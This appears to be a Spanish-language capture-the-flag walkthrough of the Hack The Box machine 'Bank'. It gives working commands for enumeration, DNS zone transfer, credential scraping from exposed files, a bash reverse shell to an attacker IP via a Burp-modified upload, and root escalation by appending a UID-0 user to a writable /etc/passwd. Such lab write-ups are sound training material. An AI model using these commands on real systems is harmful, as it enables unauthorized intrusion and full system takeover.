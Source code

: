 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Bank               |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.10.29        |

Esta maquina la realizare al estilo del curso Hacking to the OSCP

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Bank/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.29
```

![nmap 1](/assets/images/Bank/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.29 -oG allPorts
```

![nmap2](/assets/images/Bank/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,53,80 10.10.10.29 -oN targeted
```

![nmap3](/assets/images/Bank/nmap3.png)

Podemos ahora suponer un dominio para agregarlo en nuestro /etc/hosts y utilizar la sigiente herramienta:

Intentemos ver a donde mas se direccionan los paquetes con el dns del puerto 53 con el comando:

```s
sudo dig @10.10.10.29 bank.htb axfr
```

![Dig](/assets/images/Bank/dig.png)

Hemos encontrado ahora mas dominios, lo siguiente sera agregarlos a nuestro etc/hosts. Y para hacerlo podemos utilizar un tipo de filtrado que nos dara forma para copiar y pegar de la manera que necesitamos.

```s
sudo dig @10.10.10.29 bank.htb axfr | grep -oE '(\w+\.)?\w+\.htb' | sort -u | tr '\n' ' '
```

Para poder administrar y presentar un reporte profesional de los dominios encontrados, podemos usar una herramienta de<a href="https://github.com/michenriksen/aquatone.git"> github</a>

```s
sudo cat urls | feroxbuster --auto-tune --extract-links --random-agent --stdin --output bank.feroxbuster --threads 100 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Lo siguiente es usar una herramienta que automatice el <a href="https://github.com/projectdiscovery/nuclei">escaneo de vulnerabilidades</a>. Y la usaremos de la siguiente manera:

```s
nuclei -list urls
```

Aunque este no sea ahorita de gran ayuda, podemos volver a uar feroxbuster sobre el dominio que sabemos que funciona bank.htb y veremos que hay un directorio http://bank.htb/balance-transfer donde se pueden ver demasiados datos que tendremos que filtrar o simplemente seleccionar el ordenamiento por tamano para rescatar alguno que no este cifrado de la siguiente forma:

```s
sudo curl --silent --location http://bank.htb/balance-transfer |grep -i '.acc' | grep -ioE '[a-f0-9]{32}\.acc.*"right">.+ ' | cut -d '>' -f1,7 | tr '">' ' ' | sort  -k2 | head

sudo curl --silent --location http://bank.htb/balance-transfer | grep -i '.acc' | grep -ioE '[a-f0-9]{32}\.acc.*"right">.+ ' | cut -d '>' -f1,7 | tr '">' ' ' | grep -iE '\b257\b'

sudo curl --silent --location http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```

![Chris creds](/assets/images/Bank/cris_creds.png)

Una vez tenemos las credenciales de chris, podemos entrar a su banca y desplazarnos a la opcion de support. Para mandar una imagen con burpsuite modificada de la siguiente manera:

![Burpsuite](/assets/images/Bank/burpsuite.png)

![Burp test](/assets/images/Bank/burp_test.png)

Ahora para pasarle el reverse shell, podemos usar la funcion de burpsuite para codificar en url el siguiente comando:

```s
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.29/4444 0>&1"
```

Tambien con el curl, se puede usar el --data-urlencode 'cmd=whoami'

Una alternativa fancy a netcat es<a href="https://github.com/calebstewart/pwncat.git"> pwncat</a>
Una vez instalado, usaremos:

```s
pwncat-cs 0.0.0.0:4444
#Para ver todas las sessiones
sessions
#Para rapidamente enumerar usuarios
enumerate.users
#Para regresar a la linea de comandos normal, hay que usar
CTRL+d
```

Ahora que sabemos que el /etc/passwd tiene permisos de escritura, podemos hacernos una contrasena con:

```s
openssl passwd -1 P@ssw0rd!
```

Ahora solo hay que integrarlo al archivo /etc/passwd y ordenar que se abra una shell con los privilegios de root.

```s
echo 'rebick:$1$iTUnj8lw$nWNyVo.xJGZ.A6s40rohC1:0:0:gotcha:/root:/bin/bash' >> /etc/passwd
```
Usamos el comando su rebick y habremos ganado el usuario root.

![root](/assets/images/Bank/root.png)

![powned](/assets/images/Bank/pwned.png)